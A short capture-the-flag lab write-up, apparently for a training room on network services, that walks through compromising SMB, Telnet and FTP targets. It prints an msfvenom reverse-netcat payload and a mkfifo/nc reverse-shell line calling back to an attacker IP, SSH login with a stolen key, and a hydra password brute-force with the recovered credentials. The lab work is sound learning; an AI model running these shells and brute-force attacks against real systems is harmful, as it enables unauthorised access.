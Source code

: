 # Network Services
# Data: 20.09.2020

IP:`10.10.236.18`, `10.10.105.133`, `10.10.220.38`


-----------
Tools:
- nmap
- enum4linux
- smbclient //[IP]/[SHARE]
- msfvenom
- hydra

----------- SMB -----------
IP:`10.10.236.18`

1. nmap: `nmap -sC -sV -vv -p- -oN initial/ssh/nmap 10.10.236.18` 
	results in initial/ssh/nmap
2. enumeration: `enum4linux -A 10.10.236.18 | tee initial/ssh/enum4linux.log`
	results in initial/ssh/enum4linux.log
3. acces SMB share using: `smbclient //10.10.236.18/profiles`
	- investigate files found name `John Cactus`
	- found id_rsa and id_rsa.pub files
	- found login: `cactus`
	- connected via `ssh -i id_rsa cactus@10.10.236.18`
	- found flag in smb.txt 


------------ TELNET -----------
IP:`10.10.105.133`

1. namp: `nmap -sC -sV -vv -p- -A -oN initial/telnet/nmap 10.10.105.133`
	results in initial/telnet/nmap
	- one port open: `8012`, backdoor for "SKIDY"
2. ping back local machine

3. create payload using msfvenom `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
	- `mkfifo /tmp/hptewir; nc 10.8.106.217 4444 0</tmp/hptewir | /bin/sh >/tmp/hptewir 2>&1; rm /tmp/hptewir`

4. start netcat `nc -lvp 4444`

5. .RUN <payload> on remote machine

6. found flag in flag.txt in root dir


------------ FTP -----------
IP:`10.10.220.38`

1. nmap: `nmap -sC -sV -vv -p- -A -oN initial/ftp/nmap`
	results in initial/ftp/nmap

2. ftp anonymous@10.10.220.38
	found file PUBLIC_NOTICE.txt
	possible login: mike

3. enumerate with hydra: `hydra -l mike -P /opt/rockyou.txt ftp://10.10.220.38`
	found password: password

credentials: "mike:password"

4. login with found credentials, found ftp.txt


